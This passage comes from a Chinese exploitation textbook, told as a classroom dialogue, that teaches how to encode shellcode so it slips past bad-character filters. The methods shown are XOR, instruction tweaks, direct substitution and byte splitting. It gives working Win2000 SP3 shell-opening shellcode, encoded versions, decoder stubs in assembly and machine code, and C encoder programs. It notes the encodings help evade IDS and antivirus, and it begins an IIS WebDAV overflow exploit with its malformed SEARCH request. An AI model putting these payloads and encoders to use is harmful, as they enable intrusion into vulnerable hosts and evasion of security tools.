“不错！”老师说，“我们用一个实际例子检验看看！”

# 5.2.4 实例——异或 DOS 窗口程序

### 5.2.4 实例——异或 DOS 窗口程序

“我们还是以 Win2000 中文版 SP3 下的开 DOS 窗口的 ShellCode 为例。大家应该很熟悉了吧？原来的 ShellCode 如下：”

```
ShellCode[] = 
    "\x55\x8B\xEC\x33\xC0\x50\x50\x50\xC6\x45\xF4\x4D\xC6\x45\xF5\x53"
    "\xC6\x45\xF6\x56\xC6\x45\xF7\x43\xC6\x45\xF8\x52\xC6\x45\xF9\x54\xC6\x45\xFA\x2E\xC6"
    "\x45\xFB\x44\xC6\x45\xFC\x4C\xC6\x45\xFD\x4C\xBA"
    "\x64\x9f\xE6\x77" //SP3 loadlibrary 地址 0x77e69f64
    "\x52\x8D\x45\xF4\x50" 
    "\xFF\x55\xF0"
    "\x55\x8B\xEC\x83\xEC\x2C\xB8\x63\x6F\x6D\x6D\x89\x45\xF4\xB8\x61\x6E\x64\x2E" 
    "\x89\x45\xF8\xB8\x63\x6F\x6D\x22\x89\x45\xFC\x33\xD2\x88\x55\xFF\x8D\x45\xF4" 
    "\x50\xB8"
    "\xc3\xaf\x01\x78" //SP3 system 的地址 0x7801afc3
    "\xFF\xD0"
```

“我们先对 ShellCode 进行编码，异或 0x97，程序为 xorCMD.cpp（光盘有收录）。xorCMD.cpp 还会自动生成规则格式，执行效果如图 5－7。



“把屏幕上打印出的代码粘贴下来，得到编码后的 enShellCode，如下：”

```
enShellCode[] = 
    "\xc2\x1c\x7b\xa4\x57\xc7\xc7\xc7\x51\xd2"
    "\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xc1"
    "\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51\xd2"
    "\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c\xd3"
    "\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d\xf3"
    "\x8\x71\xe0\xc5\x1a\xd2\x63\xc7\x68\xc2"
    "\x67\xc2\x1c\x7b\x14\x7b\xbb\x2f\xf4\xf8"
    "\xfa\xfa\x1e\xd2\x63\x2f\xf6\xf9\xf3\xb9"
    "\x1e\xd2\x6f\x2f\xf4\xf8\xfa\xb5\x1e\xd2"
    "\x6b\xa4\x45\x1f\xc2\x68\x1a\xd2\x63\xc7"
    "\x2f\x54\x38\x96\xef\x68\x47"
```

“再把我提取出的 decode 放在前面就 ok 了！”古风说道。

“好，我们把它合起来就是这样的：”

```
AllShellCode[] = 
    //先是 decode
    "\xEB\x10\x5A\x4A\x33\xC9\x66\xB9\x00\x02"　　
    "\x80\x34\x0A\x97\xE2\xFA\xEB\x05\xE8\xEB\xFF\xFF\xFF"
    //后面跟 enShellCode
    "\xc2\x1c\x7b\xa4\x57\xc7\xc7\xc7\x51\xd2"
    "\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61\xc1"
    "\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51\xd2"
    "\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c\xd3"
    "\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d\xf3"
    "\x8\x71\xe0\xc5\x1a\xd2\x63\xc7\x68\xc2"
    "\x67\xc2\x1c\x7b\x14\x7b\xbb\x2f\xf4\xf8"
    "\xfa\xfa\x1e\xd2\x63\x2f\xf6\xf9\xf3\xb9"
    "\x1e\xd2\x6f\x2f\xf4\xf8\xfa\xb5\x1e\xd2"
    "\x6b\xa4\x45\x1f\xc2\x68\x1a\xd2\x63\xc7"
    "\x2f\x54\x38\x96\xef\x68\x47"
```

“好，我们来验证一下 ShellCode 的功能吧！”老师说。

“好的，我来！”古风生怕别人抢了他的功劳，边组合边说，“用前面教过的验证方法把上面那个数组用((void(*)(void)&AllShellCode))强行转换为函数来调用，这样就得到了 xorAll.cpp（光盘有收录）

“执行看看呢？”老师说道。

“好哩！编译、执行，如图 5－8。”



“哈哈，成功了！”古风得意的说。

“但是，”老师连忙提醒大家，“我们的解码代码 decode 首先要自己符合规范，但这里?”

“哎哟！decode 里面的第 9 个字节还是 00 呢！”眼尖的女生叫了起来。

这下台下炸开锅了，“decode 本身还不合法呢！”

古风的脸刷得一下红得像个大苹果。

小倩悄声对宇强说：“怎么会这样啊？”

宇强小声的回答：“应该可以解决的吧？看看老师怎么说。”

老师笑了笑：“我只是想提醒大家，写 ShellCode 时一定要仔细。这里的 00 很好解决，一会儿再说，我们先总结一下 xor 方法的优缺点。”

# 5.2.5 所长所短

### 5.2.5 所长所短

“Xor 大法是最早使用同时也是现在最常见的编码方法。”老师总结道，“它最大的好处是编码和解码都比较简单，而且也可以避开一定的字符，比如 ASCII 为 0 的字符，用 Xor 方法经过编码后就会变成其他的值，从而避免被截断。”

“该方法也有一定的适应性，比如刚才宇强同学说的，ShellCode 里面如果有 0x97，异或 Key＝0x97，正好变为非法的 0；那我们还可尝试改变 Key 的值，直至完全合法为止。”

“嗯，是啊！”大家领会到了。

“当然，这种方法的缺点也很明显，当限制字符较多或限制字符是个较大范围时，那很有可能找不到合适的 Key 来符合限制要求。在这种情况下，我们就需用其他算法来实现编码和解码了。”

古风很郁闷的问道：“优缺点都明白了，但刚才 decode 代码本身还有 0x00 呢，怎么解决呢？”

“关键是要知其然，更要知其所以然。真正清楚后，解决起来就简单了。”

# 5.3 简便的变形——微调法

## 5.3 简便的变形——微调法

“如果 ShellCode 只是偶尔几个字符出现了问题，我们就不必盲目的改变 Key 的值，可能会越改越糟。甚至，解码代码本身就有非法字符，就像刚才古风同学提取的 decode 一样。因此，我们改变 Key 的值也没有用处。”

古风郁闷极了。

“那咱办了？”台下问道。

“此时我们要想办法对代码进行小量微调，即使用微调法！”

# 5.3.1 变形的原理

### 5.3.1 变形的原理

“微调法就是对不合要求的字符进行等价指令变换。比如，IIS 漏洞里不能有 0x20，那么对指令 mov eax, 20h 就可改为 mov eax, 24h; sub eax, 04h ；其效果是一样的，都是 eax 减去 0x20，但避免了出现 0x20。”

“微调法原理就是在不改变指令功能的情况下个别改变使用的代码。这种等价变换法对有少量字符限制的情况还是比较实用的。”老师说道，“我们可用这种方法解决刚才 decode 的问题。”

# 5.3.2 完善的 DOS 窗口程序

### 5.3.2 完善的 DOS 窗口程序

“大家先看看刚才 decode 里面的 0x00 是怎样出现的。”老师提醒道。

大家都盯着图 5－6 仔细的看。

“哦！”古风叫了起来，“是 mov ecx, 0x200 那句指令出现的！0x200 就是 0x0200，那儿有个零。”

“对！我们 mov ecx, 0x200 ，就是把 ecx 赋成 0x200，用来指明 enShellCode 长度是 0x200。”老师说。

“哦！我们把它变为 0x201 就行了！”这下大家都明白了。

“是啊！我们把 0x200 改成 0x201，不就没有 0x00 了吗？重新把 decode 和 ShellCode 合起来，得到 decodeAndenShellCode2。”

大家嚷了起来：“快试一下效果啊！”

“OK！编译、执行，弹出我们的 DOS 对话框了！如图 5－9。”

古风懊恼的说：“我怎么这么笨啊！”

“不，这只是一个分析是否彻底的问题。在学习上，大家一定要脚踏实地，把问题真正研究透。对于缓冲区溢出编程来说，更是态度决定一切！清楚了吗？”

“清楚了！”同学们响亮地答道。

“好，大家先休息一下，下节课我们继续深入探讨。”

# 5.4 直接替换法

## 5.4 直接替换法

课间休息时，宇强和小倩聊了起来。宇强心里乐开花了：真是近水楼台啊……

小倩说：“看来什么事情都要知其原因才有意义啊！”

“是啊！记得小时候老师布置“一件趣事”的作文，我看同桌写的是给金鱼作手术，觉得很有趣，也就模仿写了一篇。那个时候我连金鱼是什么样儿都不大清楚，结果出丑了，运气也不好，大家交叉改作文，我的那篇被老师抽到上台念出来，结果被大家狂笑，念到一半，老师就说不用念了……”

“哈哈……” 小倩被逗乐了。

“不能怪我，小时候我太笨了，记得小学 2 年级时有篇课文，大意是教室的桌子脚断了，第二天却好了。老师问小明，小明说不是他修的；老师问小华，小华也说不是他修的；老师说，奇怪，难道是桌子自己好的吗？课文就完了。你明白什么意思吗？”

“就是做好事不留名嘛！”小倩说道。

“是啊！老师当时让读三遍课文，让家长签字。但我读了三遍，居然还没弄清楚‘桌子脚’是什么意思。直到 5 年级重读课文时才突然明白！”

“不会吧，小时候你这么笨啊！一点都不像现在的你。”

“什么啊，这说明我小时候把聪明都存起来了，现在才用。”

“晕哦……”小倩的腰都笑弯了。

此时老师在台上说道：“好了，大家安静，我们继续上课。”

# 5.4.1 替换的思想

### 5.4.1 替换的思想

老师说：“刚才的异或法，如果编码后的 enShellCode 还有非法字符，我们就只能改变 Key，重新试一次；但这样有可能又在另外的位置出现非法字符，很麻烦！”

“是啊，是个问题。”同学们点点头。

“我们可以加以改进！在编码时先对每个字符都进行异或编码，如果某个字符异或后还是非法字符，则再单独对该字符进行处理，变换成符合要求的字符。”

“哦？单独处理？”同学们感兴趣的说道。

“对，这就是直接替换法。”老师解释说，“单独对字符处理的方法很多，但关键是大家要懂得这个思想。”

小倩悄悄对宇强说：“看，老师一再强调理解能力也！”

宇强郁闷的说：“我知道啊，你什么意思嘛……”

“嘿嘿！”小倩笑而不道。

“好，你等着看我超强的理解能力！”

此时老师在台上说：“我们来看看如何实现吧！”

# 5.4.2 编码 C 程序

### 5.4.2 编码 C 程序

老师说道：“这里用的方法，是将 ShellCode 的每个字符‘ShellCode[i]’先和 Key 作异或得到 temp，如果合法，就直接将 temp 保存在‘enShellCode[i]’当中；如果不合法，则将‘enShellCode[i]’存为‘0’，而把 enShellCode[i+1]存为 temp+‘0’。算法示意图如图 5－10。”



“那么，‘0’是个标志？”宇强问道。

“对，当然，我们也可把‘0’换成其他的合法字符。解码时遇到标志字符时（这里是‘0’）就知道后面一位才是真正的 ShellCode，要作一定变换才可恢复原来的值。”

“我们来看看程序 DirectExchange.cpp 吧（光盘有收录）！懂得了思路，也比较简单。”

```
#include <string.h>
#include <stdio.h>
#define KEY 0x97
unsigned char ShellCode[] = "\x41\x00\x42";
int main()
{
    int i, k;
    int nLen;
    unsigned char temp;
    unsigned char enShellCode[500]; //编码后的 enShellCode
    nLen = sizeof(ShellCode)-1; //获得 ShellCode 的长度
    k = 0;
    for(i=0;i<nLen;++i)
    {
    temp = ShellCode[i]^KEY; //先异或 KEY
        //对一些可能造成 shellcode 失效的字符进行替换
        if(temp<=0x1f|| temp=='.'|| temp=='/'|| temp=='0'|| temp=='?')
        {
            enShellCode[k]='0';
            ++k;
            temp+=0x31;
        }
        enShellCode[k]=temp; //保存在 enShellCode 中
        ++k;
    }
    //格式化打印 enShellCode
    printf("\"");
    for(i=0; i<k; i++)
    {
        if(i%10 == 0 && i!=0)
        printf("\"\n\"");
        printf("\\x%x",enShellCode[i]); //将编码后的 enShellCode 打印出来
    }
    printf("\"\n");
    return 0;
}
```

# 5.4.3 解码汇编

### 5.4.3 解码汇编

“清楚了编码方法后，解码思想也就很容易理解了。解码就是判断 enShellCode 的每个字符，如果不是‘0’，就直接异或 Key 恢复回去；如果是‘0’，就把后面的那个字符减去‘0’再异或 Key，这样就可恢复以前的 ShellCode。”老师说得很快，“我们边看代码边理解思路吧！”

老师打出如下的解码汇编 exchangeDecode.cpp：

```
jmp decode_end
decode_start:
pop edi
push edi
pop esi
xor ecx,ecx 
mov ecx,0x101 //要解码个数
Decode_loop: 
Lodsb //[esi] -> eax
cmp al,0x30 //判断是否为标志‘0’
jz special_char_clean //如果是，就跳去特殊字符处理
store: //保存
xor al, 0x97 //异或 KEY = 0x97
stosb //保存解码后的 ShellCode
loop Decode_loop
jmp decode_ok
special_char_clean: //特殊字符处理
lodsb //读后一位字符
sub al,0x31 //把后一位字符减去 0x31，就恢复原来的值
jmp store 
decode_end: 
call decode_start
decode_ok: //其余真正加密的 Shellcode 代码会连接在此处
```

“首先还是一样，”老师说道，“如下代码是定位 enShellCode 位置。在前面异或大法里讲过，大家翻翻笔记就清楚了。”

```
jmp decode_end
decode_start:
pop edi
……
……
decode_end:
call decode_start
```

“接下来的代码是把解码的个数赋给 ecx，解码一个字节，ecx 就减 1，直至 ecx 减为 0，就表示解码结束了，跳到还原后的 ShellCode 中执行。”

```
xor ecx,ecx 
mov ecx,0x101 //要解码个数
```

“然后，如下代码用于判断是否为标志，如果是，就不管标志，去处理后面一个字符—－减去 0x31，恢复原来的值。”

```
cmp al,0x30 //判断是否为标志
jz special_char_clean //如果是，就跳去特殊字符处理
……
special_char_clean: //特殊字符处理
lodsb //读后一位字符
sub al,0x31 //把后一位字符减去 0x31，就恢复原来的值
```

“最后，如下代码就是异或 Key，恢复成原来的 ShellCode 并保存。”

```
xor al, 0x97 //异或 KEY = 0x97
stosb //保存解码后的 ShellCode
```

“读程序，一定要带着思路去理解。”老师再次强调。

“嗯，我现在清楚了！”宇强对小倩说。

“好了，我们用直接替换法来对开 DOS 窗口的程序进行变形，看看编码程序和解码程序是如何使用的！”老师说道。

# 5.4.4 直接替换 DOS 窗口程序

### 5.4.4 直接替换 DOS 窗口程序

“首先，我们编码。还是用 Win2000 中文版 SP3 的开 DOS 窗口程序。”老师说道，“编码程序为 DirectExchageCMD.cpp（光盘有收录），执行效果如图 5－11。”



“哦，我们把编码后的 enShellCode 直接粘贴下来就可以了。有了自动化的打印程序，好方便啊！”大家都感叹道。

“嗯，这样得到的 enShellCode 为：”

```
enShellCode [] = 
    "\xc2\x30\x4d\x7b\xa4\x57\xc7\xc7\xc7\x51"
    "\xd2\x63\xda\x51\xd2\x62\xc4\x51\xd2\x61"
    "\xc1\x51\xd2\x60\xd4\x51\xd2\x6f\xc5\x51"
    "\xd2\x6e\xc3\x51\xd2\x6d\xb9\x51\xd2\x6c"
    "\xd3\x51\xd2\x6b\xdb\x51\xd2\x6a\xdb\x2d"
    "\xf3\x30\x39\x71\xe0\xc5\x30\x4b\xd2\x63"
    "\xc7\x68\xc2\x67\xc2\x30\x4d\x7b\x30\x45"
    "\x7b\xbb\x30\x60\xf4\xf8\xfa\xfa\x30\x4f"
    "\xd2\x63\x30\x60\xf6\xf9\xf3\xb9\x30\x4f"
    "\xd2\x6f\x30\x60\xf4\xf8\xfa\xb5\x30\x4f"
    "\xd2\x6b\xa4\x45\x30\x50\xc2\x68\x30\x4b"
    "\xd2\x63\xc7\x30\x60\x54\x38\x96\xef\x68"
    "\x47";
```

“大家注意了，”老师提醒道，“比我们直接异或得到的 enShellCode 多了 14 个字节。”

“真的啊！”大家翻了下前面的笔记说道。

“这是因为有 14 个字节不合要求，编码时就会将其直接替换。大家可以看到，enShellCode 里有 14 个‘\x30’这样的标志。”

“是啊！”同学们一下明白了，宇强说道：“‘\x30’后面才是真正的 ShellCode 变换来的啊！”

“是的。我们再看看 decode 吧！把 exchangeDecode.cpp 编译，进入调试状态，将汇编对应的机器码抄下来。这个方法讲过多次了，得到的 decode 代码如下：”

```
decode[] = 
　　"\xEB\x1B\x5F\x57\x5E\x33\xC9\xB9\x01"
　　"\x01\x00\x00\xAC\x3C\x30\x74\x07\x34"
　　"\x97\xAA\xE2\xF6\xEB\x0A\xAC\x2C\x31"
　　"\xEB\xF4\xE8\xE0\xFF\xFF\xFF";
```

“我们再把 decode 和 enShellCode 合起来测试。构造得到 over_exchange.cpp（光盘有收录），运行效果如图 5－12，成功！”



# 5.4.5 直接替换法的优缺点

### 5.4.5 直接替换法的优缺点

介绍完后，老师总结道：“该方法十分巧妙，灵活运用可解决很多字符限制的问题，比如对 Cmail 就可把不合规范的大写字母减去一个值变成小写字母，当然，在前面要放上一个标志；解码时看见这个标志，就把后面的字母加上那个值，从而得到了恢复。”

“但 decode 的代码本身需要是合法字符。如果有些不符合要求的字符，可采用微调的方式，使其符合限制条件。如果微调无效，可能就需要采用其他算法了。”

# 5.5 字符拆分法

## 5.5 字符拆分法

“编码的方法很多，从上面几种方法就可看出。只要满足图 5－13 条件的算法‘F’和逆算法‘F'’，都可用于 ShellCode 编码变换，如图 5－13。”



“哦！那只要有好的算法和符合编码限制的实现，都可用于 ShellCode 的编码。”宇强说。

老师喝了一口水，然后说道：“对，这里再讲一个重要的方法——字符拆分法。”

“字符拆分法？什么意思？”

“字符拆分法就是把 ShellCode 的每个字符拆分成几个其他字符（当然，拆成的字符要符合编码规范），解码的时候，把字符再合起来，恢复成原来的 ShellCode。”

“听起来蛮有意思的！实现起来难吗？”同学们问道。

“明白了思路就不难，我们一起来看看吧！”

# 5.5.1 方法一 Z＝A＋B

### 5.5.1 方法一 Z＝A＋B

“第一种字符拆分法，是把 ShellCode 的每个字符‘Z’拆分成几个数字的和。比如拆成两个，即 Z＝A＋B。如 0x77，就可拆成 0x77＝0x01+0x76＝0x02＋0x75＝……＝0x38＋0x39。”

老师歇了口气继续说：“因为和的组合方式有很多种（如 0x77 就有 56 种组合），而我们只选一种出来，所以我们可以避免大量的 ASCII 字符。这样，除了 decode 外，可以有多种变形，对一些 IDS 或杀毒软件都有一定效果。”

“编码算法 AddCMD.cpp 可像如下用 C 语言实现。”

```
#include<stdio.h>
unsigned char ShellCode[] = 
"\xF3\x78\xFE";
unsigned char BadChar[] = //不符合要求的字符
"\x00\xFF\x01";
int main()
{
    unsigned char a,b;
    unsigned char z;
    int i, j, nLen, BadLen;
    bool bSuccess;
    nLen = sizeof(ShellCode) - 1; //ShellCode 长度
    BadLen = sizeof(BadChar) - 1; //不符合要求字符的长度
    bSuccess = true;
    for(i=0; i<nLen; i++)
    {
        z = ShellCode[i]; //取当前要拆分的字符
        for(a=1; a<127; a++)
        {
            if(z < a) //z 比 a 还小，拆分失败，结束
            {
                bSuccess = false;
                printf("Failed!");
                break;
            }
            b = z - a; //否则 z 拆分成 a+b
            for(j=0; j<BadLen; j++) //判断 a 和 b 是否符合要求
            {
                if(a==BadChar[j] || b==BadChar[j]) //a 或 b 不符合要求
                break;
            }
            if(j>=BadLen) //a、b 都符合要求，打印出来
            {
                printf("\\x%x\\x%x",a,b);
                break; //当前 z 拆分成功，拆分下一个
            }
            else
            ; //a 或 b 不符合要求，j 就会<BadLen；就要改变 a，继续尝试
        }
        if(!bSuccess) //某个字符拆分失败，拆分以失败告终
        {
            break;
        }
    }
    if(bSuccess)
    printf("\nSucceess!\n");
    return 0;
}
```

“思路很清晰，但程序似乎不大好懂啊……”大家说道。

“好，我来解释一下。‘z = ShellCode[i]’取要拆分的字符；‘for(a=1; a<127; a++)’是依次尝试 a 的值；通过 z 和 a，就得到 b 为 b＝z－a；然后我们判断 a 和 b 是否符合要求，如果符合要求，就把 a 和 b 打印出来，继续拆分下一个字符；如果不合要求，‘if(a==BadChar[j] || b==BadChar[j])’就要改变 a 和 b 的值，重新拆分判断。”

“哦，这样啊！全部拆分成功就表示成功了？”

“对！我们测试一下，假设不能含有 00、FE 和 01，ShellCode 为‘\xF3\x78\xFF’，拆分的效果就如图 5－14。”



“哦！F3＝2＋F1；78＝2＋76；FF＝2＋FD。果然生成符合要求的 enShellCode 了！”大家嚷道。

“嗯，那我们的解码就是每次取两个数，加起来复原？”玉波说道。

“对，解码的汇编代码如下：”

```
__asm
{
    lea eax,decode;
    call eax
}
__asm
{
    jmp decode_end //为了获得 enShellCode 的地址
    decode_start:
    pop ebx //得到 enShellCode 的开始位置 esp -> ebx
    xor ecx,ecx
    mov cx,0x101 //要解码的 enShellCode 长度 
    xor esi,esi //esi=0
    xor edi,edi //edi=0
    decode_loop:
    mov ah,[ebx+esi]
    add ah,[ebx+esi+1] 
    mov [ebx+edi],ah //0+1 放在 0 位中，2＋3 放在 1 位中......
    inc edi //edi 每次加 1
    inc esi
    inc esi //esi 每次加 2
    loop decode_loop
    jmp decode_ok //解码完毕后，跳到解码后的地方执行！
    decode_end:
    call decode_start
    decode_ok: //后面接编码后的 enShellCode
}
```

“懂得了思路就比较容易理解了。依次取第 0 位到 ah 中，然后和第 1 位相加，得到的和存在第 0 位中；再取第 2 位和第 3 位相加，存在第 1 位中。这样就完成了解码。”

“最后，把解码的汇编提取成机器码形式的 decode。如下：”

```
decode[] = 
　　"\xEB\x1C\x5B\x33\xC9\x66\xB9\x01\x01"
　　"\x33\xF6\x33\xFF\x8A\x24\x33\x02\x64"
　　"\x33\x01\x88\x24\x3B\x47\x46\x46\xE2"
　　"\xF1\xEB\x05\xE8\xDF\xFF\xFF\xFF"
```

“有了编码和解码的代码，大家下来就可自己测试了。还是先用编码程序把 ShellCode 编码，得到 enShellCode，再把 decode 放在前面，得到完整的程序后执行，看看最终效果。”

测试！还是成功了！

“不错，不错，这种思路很巧妙！”大家感叹道。

“还是那句话，没有十全十美的方法。这种方法的缺点是：较小的数拆分的方式较少，像 0x07 这样的数，就有可能无法找到符合条件的组合。”

“当然，decode 代码中仍有可能含有不合要求的字符，在这种情况下就需要采用微调的方法改变，如果微调也无效，那就可能需要换算法了。”

# 5.5.2 方法二 0xAB=0xA*0x10+0xB

### 5.5.2 方法二 0xAB=0xA*0x10+0xB

宇强对小倩说：“有了和的拆分法，我认为也可以有乘积的拆分法。”

果然，老师说道：“还有第二种字符拆分法，就是把 ShellCode 的每个字符拆分成两个数的乘积。比如 0xAB 拆分成 0xA 和 0xB，恢复时是 0xAB=0xA*0x10+0xB。”

“哦！你还行嘛！”小倩转头看了看宇强。

“呵呵，是啊！”宇强高兴的说，“小时候我把聪明存了起来，所以我现在悟性高嘛！”

“什么啊，给你点阳光就灿烂！”小倩撅着嘴说。

……

老师在台上说，“对于这种方法的使用，我们看一个实际的漏洞——WebDav 漏洞。”

# 5.5.3 实际运用——WebDav 漏洞编写

### 5.5.3 实际运用——WebDav 漏洞编写

“WebDav 溢出漏洞是 IIS 漏洞的一种，要利用它有一定的难度！”

“哦，比较难啊？难在什么地方呢？”

“呵呵，我们一起往下走就知道了。虽然比较困难，但搞清楚之后对大家的思路扩展是很有好处的！”

“哦！好 Yeah！”

小知识：

IIS5 默认提供了对 WebDAV 的支持，通过 WebDAV，可以利用 HTTP 向用户提供远程文件存储的服务。IIS 5.0 包含的 WebDAV 组件不充分检查传递给部分系统组件的数据，远程攻击者利用这个漏洞对 WebDAV 进行缓冲区溢出攻击，可能以 WEB 进程权限在系统上执行任意指令。IIS 5.0 的 WebDAV 使用了 ntdll.dll 中的一些函数，而这些函数存在一个缓冲区溢出漏洞，通过对 WebDAV 的畸形请求可以触发这个溢出。成功利用这个漏洞可以获得 LocalSystem 权限。这意味着入侵者可获得主机的完全控制能力。

“这个漏洞还是很有用的吧！而且在 Win2000 SP3 中也有这个漏洞哦！”

“这个漏洞产生的机理相当复杂。我简单的说吧！发出如下请求时，IIS 就会把‘buffer’加上几个字节的路径，作拷贝操作。”

```
SEARCH /[buffer] HTTP/1.0
Host:xxx
Content-Type: text/xml
Content-length: 3
